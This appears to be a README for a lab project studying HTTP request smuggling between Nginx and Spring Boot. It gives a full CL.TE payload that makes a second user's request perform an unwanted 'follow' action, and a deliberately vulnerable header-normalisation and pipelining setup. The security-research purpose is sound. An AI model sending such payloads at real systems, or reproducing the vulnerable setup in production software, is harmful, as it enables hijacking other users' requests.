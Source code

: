 # Http Smuggling Demo Project (Nginx + Spring)
### This project is intend to
- To study the behaviours of Http Smuggling Attack on a FE + BE application combination.
- To understand what are the pre-conditions of a system setup that potentially exploit-able

### Project Structure
#### http-smuggler-application
- acts as Back End Service. typical spring boot application
- simple rest API to simulate the scenario of
    - login
    - users/me
    - users?follow=${name}
#### nginx
- acts as Front End Service (LB|Proxy|ReversedProxy)
- uses nginx lua module to perform `http headers normalization` that converts invalid headers that consist of `_` to `-`
- It is almost impossible to perform `http headers normalization` on sensitive/builtin headers with nginx lua module, hacks have been done in order to achieve it
#### http-smuggler-gateway
- tries to reproduce using a Spring Gateway + Spring Boot approach
- It is almost impossible to realise where
    - Spring Gateway will throw error where filter headers have both CL and TE [link](https://github.com/spring-cloud/spring-cloud-gateway/blob/59cba504509ee807ab5c6be01ba46c20b034cd8f/spring-cloud-gateway-server/src/main/java/org/springframework/cloud/gateway/filter/NettyRoutingFilter.java#L168-L175).
    - Requires a keep alive socket connection between the two (yet to be POCed)

### Demo Flow
To simulate user impersonate attack using Http Smuggling Attack. Execute the request payload in the burp suite application (repeater)

- Two demo users, `bob | pwd` and `alice | pwd`
- `alice` login to the application, and be return with a sessionId
```
POST /v1/login HTTP/1.1
Accept: */*
Cache-Control: no-cache
Host: localhost
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 27

username=alice&password=pwd
```

- Uses the sessionId, alice retrieves her information using `v1/users/me` api
```
GET /v1/users/me HTTP/1.1
Authorization: ${sessionId}
Accept: */*
Cache-Control: no-cache
Host: localhost
Accept-Encoding: gzip, deflate
```

- bob performs CLTE Http Smuggling Attack from the login API
```
POST /v1/login HTTP/1.1
Content-Type: application/json
Accept: */*
Cache-Control: no-cache
Host: localhost
Connection: keep-alive
Content-Length: 89
Transfer_Encoding: chunked

23
{"username":"bob","password":"pwd"}
0

PUT /v1/users/follow?user=bob HTTP/1.1
X:X
```
- On the next `users/me` query, alice's request will be smuggled and resulting in following bob `PUT /v1/users/follow?user=bob`, result can be observed from the response payload.

### Explanation
- The invalid header `Transfer_Encoding` will be normalised at the proxy layer to a valid `Transfer-Encoding` header when it passes to application layer
- As `Transfer-Encoding` has higher precedence than `Content-Length`, a desync is happened where FE uses `Content-Length` but BE uses `Transfer-Encoding`
- As the `Transfer-Encoding`'s payload is much shorter, the application layer will think the payload ends at the 0, and will threat the follow `PUT /v1 ***` request as the next request
- when the victim request comes in (alice), the application will process the request as the below, and results in performing `/v1/users/follow?user=bob` instead of `/v1/users/me`
```
PUT /v1/users/follow?user=bob HTTP/1.1
X:XGET /v1/users/me HTTP/1.1 // silence the request URL part
Authorization: ${sessionId}
Accept: */*
Cache-Control: no-cache
Host: localhost
Accept-Encoding: gzip, deflate
```

### Experiment Findings
Two conditions to meet for a success Http smuggling
- Make use of the variant of CL & TE headers to trick payload mismatch between FE and BE
- The connection between FE & BE must be `Http 1.1 with pipelining enabled`  where multiple HTTP requests are sent on a single TCP connection
- To configure Nginx to perform `http pipelining`
```
upstream application {
  server localhost:9090;
  keepalive 16;
}

proxy_set_header Connection "";
proxy_http_version 1.1;

```

### Additional Dev Notes
#### Setup Burp Suite on Firefox
- Burp Suite is suitable to send HTTP request with Transfer-Encoding = chunked
- by default, localhost | 127.0.0.1 won't forward traffic to proxy server
- to enable it, go  to tab `about:config` then look for `network.proxy.allow_hijacking_localhost`. [(reference)](https://security.stackexchange.com/a/211555/224446)
